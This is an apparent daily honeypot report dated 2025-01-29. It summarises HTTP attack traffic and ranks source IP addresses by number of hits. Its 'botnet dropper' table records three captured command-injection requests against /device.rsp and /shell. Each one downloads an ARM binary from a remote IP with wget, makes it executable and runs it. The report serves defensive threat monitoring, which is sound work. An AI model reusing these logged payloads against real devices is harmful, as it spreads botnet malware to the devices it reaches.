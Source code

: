 ```yaml
---
title: "Report: 2025-01-29 "
date: 2025-01-29
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-01-29
interaction report on http service of various Hhoneypot around the world.
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of source IP addresses](#list_of_source_ip_addresses)
- [List of user_agent](#user_agent)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## botnet_dropper_behaviour
|    | remote_addr    | request                                                                                                                                                                                     |
|---:|:---------------|:--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
|  0 | 141.255.166.90 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F185.121.15.223%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1 |
|  1 | 45.148.10.242  | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F193.17.183.121%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1 |
|  2 | 81.17.101.155  | GET /shell?cd+/tmp;rm+-rf+*;wget+ 45.90.162.234/wdjkalwww/telnet.arm5;chmod+777+/tmp/telnet.arm5;sh+/tmp/telnet.arm5 HTTP/1.1                                                               |

## list_of_source_IP_addresses
|     |   number_of_occurence | remote_addr     |
|----:|----------------------:|:----------------|
|   0 |                    74 | 78.153.140.224  |
|   1 |                    72 | 195.3.223.55    |
|   2 |                    57 | 141.255.166.90  |
|   3 |                    56 | 45.148.10.242   |
|   4 |                    45 | 4.213.162.155   |
|   5 |                    45 | 146.19.24.168   |
|   6 |                    44 | 92.255.57.58    |
|   7 |                    36 | 185.196.220.253 |
|   8 |                    34 | 78.153.140.177  |
|   9 |                    30 | 78.153.140.148  |
|  10 |                    27 | 35.216.139.120  |
|  11 |                    25 | 5.181.190.248   |
|  12 |                    20 | 95.214.55.43    |
|  13 |                    20 | 179.43.191.146  |
|  14 |                    16 | 165.227.174.69  |
|  15 |                    16 | 164.90.232.15   |
|  16 |                    15 | 165.232.121.251 |
|  17 |                    15 | 95.214.55.132   |
|  18 |                    14 | 80.82.77.202    |